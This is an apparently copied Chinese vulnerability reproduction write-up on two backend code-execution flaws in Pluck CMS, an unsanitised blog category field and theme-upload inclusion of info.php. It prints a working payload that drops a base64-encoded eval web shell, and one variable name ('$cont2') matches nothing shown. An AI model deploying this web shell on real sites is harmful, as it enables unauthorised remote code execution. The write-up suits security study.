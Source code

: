 # Pluck CMS 后台另两处任意代码执行

> 原文：[http://book.iwonder.run/0day/Pluck cms/1.html](http://book.iwonder.run/0day/Pluck cms/1.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

#### 第一处：过滤不严导致单引号逃逸

在 function.php 里面 blog_save_post()函数

```
function blog_save_post($title, $category, $content, $current_seoname = null, $force_time = null) {
    //Check if 'posts' directory exists, if not; create it.
    if (!is_dir(BLOG_POSTS_DIR)) {
        mkdir(BLOG_POSTS_DIR);
        chmod(BLOG_POSTS_DIR, 0777);
    }

    //Create seo-filename
    $seoname = seo_url($title);

    //Sanitize variables.
    $title = sanitize($title, true);
    $content = sanitizePageContent($content, false);

    if (!empty($current_seoname)) {
        $current_filename = blog_get_post_filename($current_seoname);
        $parts = explode('.', $current_filename);
        $number = $parts[0];

        //Get the post time.
        include BLOG_POSTS_DIR.'/'.$current_filename;

        if ($seoname != $current_seoname) {
            unlink(BLOG_POSTS_DIR.'/'.$current_filename);

            if (is_dir(BLOG_POSTS_DIR.'/'.$current_seoname))
                rename(BLOG_POSTS_DIR.'/'.$current_seoname, BLOG_POSTS_DIR.'/'.$seoname);
        }
    }

    else {
        $files = read_dir_contents(BLOG_POSTS_DIR, 'files');

        //Find the number.
        if ($files) {
            $number = count($files);
            $number++;
        }
        else
            $number = 1;

        if (empty($force_time))
            $post_time = time();
        else
            $post_time = $force_time;
    }

    //Save information.
    $data['post_title']    = $title;
    $data['post_category'] = $category;
    $data['post_content']  = $content;
    $data['post_time']     = $post_time;

    save_file(BLOG_POSTS_DIR.'/'.$number.'.'.$seoname.'.php', $data);

    //Return seoname under which post has been saved (to allow for redirect).
    return $seoname;
} 
```

其中

```
$data['post_title']    = $title;
$data['post_category'] = $category;
$data['post_content']  = $content;
$data['post_time']     = $post_time; 
```

$title $content 均被过滤，$post_time 不可控，$category 可控

所以只要把$cont2 变成我们的 payload 即可

<center>![image](img/d88d9666cd09a435f44c7c0f27f1db51.png)</center>

<center>![image](img/16aa9ca8772862a31ab3443a0d4068be.png)</center>

#### 第二处：安装模版+文件包含导致任意命令执行

很多 CMS 都会在安装模版的时候 getshell，那么这里笔者也发现了类似的漏洞。

##### 1、直接访问失败

首先准备一个 shell.php 里面是我们的 phpinfo();

然后打包成 shell.zip，直接上传主题

<center>![image](img/b20c0536cbf9149e1b97cf43360bc573.png)</center>

<center>![image](img/def694f8dddef78d06fa6d42bce2dd3e.png)</center>

发现确实上传并且解压成功

但是由于目录下有.htaccess 文件，直接把 php 设置为不可解析，所以无法直接访问

<center>![image](img/42978cc81d81e9645b0aaef6f157b6dc.png)</center>

<center>![image](img/a8aeea223a43648be612957ece795068.png)</center>

##### 2、文件包含突破

所以就想到需要找一个位置对其进行包含，来达到执行的目的。

首先看到 admin.php 中关于 theme 的部分

<center>![image](img/94d27d5963f7cbf45a770b6b81076091.png)</center>

跟进 data/inc/theme.php，发现调用了 get_themes()方法

<center>![image](img/c964289b4b147cc8b237dc1ea6ae0744.png)</center>

跟进 functions.all.php，查看 get_themes()方法

```
function get_themes() {
    $dirs = read_dir_contents('data/themes', 'dirs');
    if ($dirs) {
        natcasesort($dirs);
        foreach ($dirs as $dir) {
            if (file_exists('data/themes/'.$dir.'/info.php')) {
                include_once ('data/themes/'.$dir.'/info.php');
                $themes[] = array(
                    'title'   => $themename,
                    'dir' => $dir
                );
            }
        }
        return $themes;
    }
    else
        return false;
} 
```

发现会遍历 data/themes/下所有主题目录，并且包含他的 info.php 文件

此时 info.php 可控，就导致了任意代码执行。

##### 3、利用方法

首先准备一个 info.php

```
<?php
file_put_contents('x.php',base64_decode('PD9waHAgQGV2YWwoJF9HRVRbJ21yNiddKTs/Pg=='));
?> 
```

然后打包压缩成 shell.zip

上传安装主题，然后点击回到主题页，此时触发文件包含。

<center>![image](img/bd5441dc049731159ea03923399634e6.png)</center>

<center>![image](img/cbad44a88525ef63d74c11bee6d46fbe.png)</center>

<center>![image](img/ca565cc5d5956d811361fde15c9146c4.png)</center>

